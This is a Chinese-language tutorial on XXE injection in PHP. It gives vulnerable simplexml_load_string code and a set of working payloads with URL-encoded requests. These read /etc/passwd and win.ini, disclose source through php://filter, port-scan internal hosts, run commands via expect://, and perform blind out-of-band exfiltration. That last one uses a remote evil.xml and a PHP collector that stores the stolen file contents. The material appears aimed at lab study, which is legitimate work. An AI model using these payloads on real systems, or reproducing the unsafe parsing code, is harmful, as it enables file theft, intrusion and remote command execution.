

XXE Injection即XML External Entity Injection,也就是XML外部实体注入攻击.漏洞是在对非安全的外部实体数据进⾏处理时引发的安全问题。

libxml<libxml2.9 不支持外部实体

## 1、内部实体

在程序用的比较多就是内部实体

```php
<!ENTITY 实体名称 "实体的值">
<?xml version="1.0" encoding="ISO-8859-1"?>
<note>
   	<to>George</to>
    <from>John</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
</note>
```

## 2、外部实体

外部实体可支持http、file等协议 不同程序支持的协议也不同。

```php
<!ENTITY 实体名称 SYSTEM "URI/URL">
```

外部实体注入攻击的常见

```php+HTML
<?php
$string_xml = '<?xml version="1.0" encoding="utf-8"?><note><to>George</to><from>John</from><heading>Reminder</heading><body>xml实体注入</body></note>';
$xml = isset($_GET['xml'])?$_GET['xml']:$string_xml;
$data = simplexml_load_string($xml);
echo  '<meta charset="UTF-8">';
print_r($data);
?>
```

## 3、有回显

xxe.php

```php
<?php
$string_xml = '<?xml version="1.0" encoding="utf-8"?><note><to>George</to><from>John</from><heading>Reminder</heading><body>xml实体注入</body></note>';
$xml = isset($_GET['xml'])?$_GET['xml']:$string_xml;
$data = simplexml_load_string($xml);
echo  '<meta charset="UTF-8">';
print_r($data);
?>
```

xxe02.php

```php
<?php
$xml = $_GET['xml'];
$data = @simplexml_load_string($xml);
```

任意读取文件

```php
<?xml version="1.0"?><!DOCTYPE  a  [<!ENTITY b SYSTEM "file:///etc/passwd">]><c>&b;</c>
    
<?xml version="1.0"?><!DOCTYPE  a  [<!ENTITY b SYSTEM "file:///C:/Windows/win.ini">]><c>&b;</c>
```

浏览器

```http
http://192.168.31.125/xxe.php?xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20%20a%20%20%5B%3C%21ENTITY%20b%20SYSTEM%20%22file%3A%2f%2f%2fC%3A%2fWindows%2fwin.ini%22%3E%5D%3E%3Cc%3E%26b%3B%3C%2fc%3E
```


使用是要进行编码

在php里还可以利用伪协议读取文件

```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=phpinfo.php" >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
```

```http
http://192.168.31.125/xxe.php?xml=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22utf-8%22%3F%3E%20%0A%3C%21DOCTYPE%20xdsec%20%5B%0A%3C%21ELEMENT%20methodname%20ANY%20%3E%0A%3C%21ENTITY%20xxe%20SYSTEM%20%22php%3A%2f%2ffilter%2fread%3Dconvert.base64-encode%2fresource%3Dphpinfo.php%22%20%3E%5D%3E%0A%3Cmethodcall%3E%0A%3Cmethodname%3E%26xxe%3B%3C%2fmethodname%3E%0A%3C%2fmethodcall%3E%0A
```

 

扫描端口 

```php
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "http://192.168.31.125:80">
]>
<abc>&test;</abc>
```

```http
http://192.168.31.125/xxe.php?xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%0A%3C%21DOCTYPE%20ANY%20%5B%0A%3C%21ENTITY%20test%20SYSTEM%20%22http%3A%2f%2f192.168.31.125%3A80%22%3E%0A%5D%3E%0A%3Cabc%3E%26test%3B%3C%2fabc%3E%0A
```


执行命令

若开启expect扩展

```http
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "expect://whoami">
]>
<abc>&test;</abc>
```

```php
http://192.168.31.125/xxe.php?xml=%3c%3fxml%20version%3d%221.0%22%3f%3e%0a%3c!doctype%20any%20%5b%0a%3c!entity%20test%20system%20%22expect%3a%2f%2fwhoami%22%3e%0a%5d%3e%0a%3cabc%3e%26test%3b%3c%2fabc%3e
```

## 4、无回显

称为 blind xxe 可以使用外带数据通道 提取数据

```php
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///C:/1.txt">
<!ENTITY % remote SYSTEM "http://192.168.31.100/evil.xml">
%remote;
%all;
]>
<root>&send;</root>
```

```http
http://192.168.31.125/xxe02.php?xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%0A%3C%21DOCTYPE%20ANY%5B%0A%3C%21ENTITY%20%25%20file%20SYSTEM%20%22file%3A%2f%2f%2fC%3A%2f1.txt%22%3E%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2f%2f192.168.31.100%2fevil.xml%22%3E%0A%25remote%3B%0A%25all%3B%0A%5D%3E%0A%3Croot%3E%26send%3B%3C%2froot%3E%0A
```

evil.xml 文件内容

```html
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.31.100/1.php?file=%file;'>">
```

1.php

```php
<?php file_put_contents("1.txt", $_GET['file']); ?>
```


